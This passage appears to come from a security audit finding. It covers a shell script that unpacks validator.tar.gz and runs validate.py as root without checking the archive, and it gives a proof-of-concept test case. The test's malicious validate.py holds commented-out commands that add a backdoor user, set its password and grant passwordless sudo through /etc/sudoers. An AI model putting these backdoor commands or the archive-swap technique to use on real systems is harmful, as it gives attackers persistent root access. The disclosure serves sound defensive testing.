         [[ -n "$(uname -a | grep -i $distro)" || -n "$(uname -a | grep -i debian)" ]] && sudo $(which python) validate.py
        [[ -n "$(uname -a | grep -i $redhat)" || -n "$(uname -a | grep -i centos)" ]] && sudo $(which platform_python) validate.py
        ```
    - **`sudo $(which tar) -xzf validator.tar.gz`**: This line unpacks the `validator.tar.gz` archive using `tar`. The `-z` option decompresses gzip archives, `-x` extracts files, and `-f` specifies the archive file. The use of `sudo` executes `tar` with root privileges. There are no checks performed on the archive before extraction. A malicious archive could contain files that overwrite system files, or scripts that execute malicious commands upon extraction.
    - **`sudo $(which python) validate.py` and `sudo $(which platform_python) validate.py`**: These lines conditionally execute `validate.py` with root privileges based on the detected Linux distribution. The script assumes that `validate.py` is a trusted script within the unpacked archive. If a malicious `validator.tar.gz` replaces the legitimate one, this will execute a potentially attacker-controlled `validate.py` with root privileges.
- Security Test Case:
    1. **Prepare Malicious Archive**:
        - Create a new directory, for example `malicious_validator`.
        - Inside `malicious_validator`, create a malicious `validate.py` file with the following content:
            ```python
            import os

            # Create a marker file to indicate successful malicious code execution
            os.system("touch /tmp/pwned_by_malicious_validator")

            # Optionally, execute more harmful commands like creating a backdoor user
            # os.system("useradd -M -s /bin/bash backdoor_user")
            # os.system("echo 'backdoor_password' | passwd --stdin backdoor_user")
            # os.system("echo 'backdoor_user ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers")

            print("Malicious validate.py executed!")
            ```
        - Create a `validator.tar.gz` archive from the `malicious_validator` directory:
            ```bash
            tar -cvzf validator.tar.gz malicious_validator
            ```
    2. **Set up Test Environment**:
        - Deploy an Azure Linux VM to act as the validation target.
        - Upload the `validate_upload.sh` script and the newly created `validator.tar.gz` to the home directory of the VM (or any directory accessible to the user).
    3. **Execute the Validation Script**:
        - Connect to the Azure VM via SSH.
        - Navigate to the directory where `validate_upload.sh` and `validator.tar.gz` are located.
        - Execute the `validate_upload.sh` script:
            ```bash
            bash validate_upload.sh test-vhd test-generation
            ```
    4. **Verify Exploitation**:
        - After the script completes, check for the marker file created by the malicious script.
        - Execute the following command on the validation VM:
            ```bash
            ls /tmp/pwned_by_malicious_validator
            ```